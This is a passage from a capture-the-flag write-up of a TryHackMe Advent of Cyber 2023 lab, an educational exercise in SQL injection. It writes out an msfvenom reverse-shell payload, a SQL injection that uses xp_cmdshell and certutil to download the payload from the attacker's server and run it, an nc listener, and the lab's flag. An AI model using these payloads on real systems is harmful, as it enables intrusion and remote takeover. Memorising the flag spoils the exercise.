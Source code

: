 ![Gift Site|600](images/thm-aoc-2023-day-9-12/gift-7.png)

Next, we need to generate a reverse shell payload that can be executed on the target system. `msfvenom` can be used to generate the required payload.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.165.223 LPORT=4444 -f exe -o reverse.exe
```

![Gift Site|600](images/thm-aoc-2023-day-9-12/gift-8.png)

Once the payload is generated we need to host the payload on a web server. The target will download the payload from the server. This can be done using Python.

```bash
python3 -m http.server 8000
```

Now we can use the `xp_cmdshell` stored procedure to execute a system command on the vulnerable system to download the payload.

```
http://10.10.179.128/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.165.223:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

![Gift Site|500](images/thm-aoc-2023-day-9-12/gift-9.png)

![Gift Site|640](images/thm-aoc-2023-day-9-12/gift-10.png)

Once the executable is downloaded we need to set up a listener which is going to be used by the payload to connect back to us.

```bash
nc -nvlp 4444
```

Finally, using the stored procedure we can execute the payload. If done correctly this should give us access to the remote system.

```
http://10.10.179.128/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

![Gift Site|380](images/thm-aoc-2023-day-9-12/gift-11.png)

![Gift Site|640](images/thm-aoc-2023-day-9-12/gift-12.png)

The note file with the flag is located on the Desktop of the Administrator.

![Gift Site|640](images/thm-aoc-2023-day-9-12/gift-13.png)

> THM{b06674fedd8dfc28ca75176d3d51409e}

**5. What is the flag you receive on the homepage after restoring the website?**

The note from the previous question tells us to run the `restore_website.bat` script to fix the website.

